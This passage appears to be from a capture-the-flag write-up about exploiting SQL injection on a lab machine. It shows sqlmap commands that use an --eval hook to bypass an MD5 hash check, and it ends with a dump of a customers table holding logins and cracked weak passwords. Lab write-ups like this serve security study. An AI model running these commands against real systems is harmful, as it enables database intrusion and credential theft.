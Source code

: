 ## sql injection

Testing sql injection with sqlmap and Found **boolean-based blind** sql injection.
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b"
#... [snip] ...
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (7143=7143) THEN 'id desc' ELSE (SELECT 8447 UNION SELECT 3809) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b
---
#... [snip] ...
```

After enumerating dbms, Dumping user credentials
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" -D cleaner -T customers --dump
#... [snip] ...
Database: cleaner                                                                                                                                                                                                                            
Table: customers
[29 entries]
+----+------------------------------+----------------------------------------------+----------------------+
| id | login                        | password                                     | customer_name        |
+----+------------------------------+----------------------------------------------+----------------------+
| 1  | vikki.solomon@throwaway.mail | 7c6a180b36896a0a8c02787eeafb0e4c (password1) | Vikki Solomon        |
| 2  | nstone@trashbin.mail         | 6cb75f652a9b52798eb6cf2201057c73 (password2) | Neave Stone          |
| 3  | bmceachern7@discovery.moc    | e10adc3949ba59abbe56e057f20f883e (123456)    | Bertie McEachern     |
| 4  | jkleiser8@google.com.xy      | 827ccb0eea8a706c4c34a16891f84e7b (12345)     | Jordana Kleiser      |
| 5  | mchasemore9@sitemeter.moc    | 25f9e794323b453885f5181f1b624d0b (123456789) | Mariellen Chasemore  |
| 6  | gdornina@marriott.moc        | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  | Gwyneth Dornin       |
| 7  | itootellb@forbes.moc         | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)  | Israel Tootell       |
| 8  | kmanghamc@state.tx.su        | 8afa847f50a716e64932d995c8e7435a (princess)  | Karon Mangham        |
| 9  | jblinded@bing.moc            | fcea920f7412b5da7be0cf42b8c93759 (1234567)   | Janifer Blinde       |
| 10 | llenchenkoe@macromedia.moc   | f806fc5a2a0d5ba2471600758452799c (rockyou)   | Laurens Lenchenko    |
| 11 | aaustinf@booking.moc         | 25d55ad283aa400af464c76d713c07ad (12345678)  | Andreana Austin      |
| 12 | afeldmesserg@ameblo.pj       | e99a18c428cb38d5f260853678922e03 (abc123)    | Arnold Feldmesser    |
| 13 | ahuntarh@seattletimes.moc    | fc63f87c08d505264caba37514cd0cfd (nicole)    | Adella Huntar        |
| 14 | talelsandrovichi@tamu.ude    | aa47f8215c6f30a0dcdb2a36a9f4168e (daniel)    | Trudi Alelsandrovich |
```